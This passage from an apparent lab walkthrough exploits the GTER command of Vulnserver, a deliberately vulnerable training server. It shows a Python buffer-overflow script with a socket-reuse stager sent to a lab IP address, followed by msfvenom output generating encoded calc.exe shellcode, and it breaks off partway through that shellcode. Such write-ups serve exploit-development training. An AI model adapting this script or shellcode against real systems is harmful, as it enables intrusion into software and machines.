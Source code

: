 ```c
payload+=socket_recv
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 socket-reuse-stager.py
```

After running this, we could see that our ```call edx``` instruction is able to call the ```JMP.&WS2_32.recv``` function

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-stager-3.png">
</div>

Proceeding with step into, we can see that our arguments are loaded properly

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-stager-4.png">
</div>

As for now, we are able to call ```JMP.&WS2_32.recv``` along with the arguments aligned on stack perfectly

Its time to craft our second stager shellcode and use it for our exploit

## Crafting shellcode

Lets generate the shellcode to pop ```calc.exe``` using msfvenom,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$  msfvenom -p windows/exec CMD=calc.exe -b '\x00' -f python        
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1078 bytes
buf =  b""
buf += b"\xbd\x2d\xad\x09\x5a\xd9\xc7\xd9\x74\x24\xf4\x5f\x31"
buf += b"\xc9\xb1\x31\x31\x6f\x13\x03\x6f\x13\x83\xc7\x29\x4f"
buf += b"\xfc\xa6\xd9\x0d\xff\x56\x19\x72\x89\xb2\x28\xb2\xed"
buf += b"\xb7\x1a\x02\x65\x95\x96\xe9\x2b\x0e\x2d\x9f\xe3\x21"
buf += b"\x86\x2a\xd2\x0c\x17\x06\x26\x0e\x9b\x55\x7b\xf0\xa2"
buf += b"\x95\x8e\xf1\xe3\xc8\x63\xa3\xbc\x87\xd6\x54\xc9\xd2"
buf += b"\xea\xdf\x81\xf3\x6a\x03\x51\xf5\x5b\x92\xea\xac\x7b"
buf += b"\x14\x3f\xc5\x35\x0e\x5c\xe0\x8c\xa5\x96\x9e\x0e\x6c"
buf += b"\xe7\x5f\xbc\x51\xc8\xad\xbc\x96\xee\x4d\xcb\xee\x0d"
buf += b"\xf3\xcc\x34\x6c\x2f\x58\xaf\xd6\xa4\xfa\x0b\xe7\x69"
buf += b"\x9c\xd8\xeb\xc6\xea\x87\xef\xd9\x3f\xbc\x0b\x51\xbe"
buf += b"\x13\x9a\x21\xe5\xb7\xc7\xf2\x84\xee\xad\x55\xb8\xf1"
buf += b"\x0e\x09\x1c\x79\xa2\x5e\x2d\x20\xa8\xa1\xa3\x5e\x9e"
```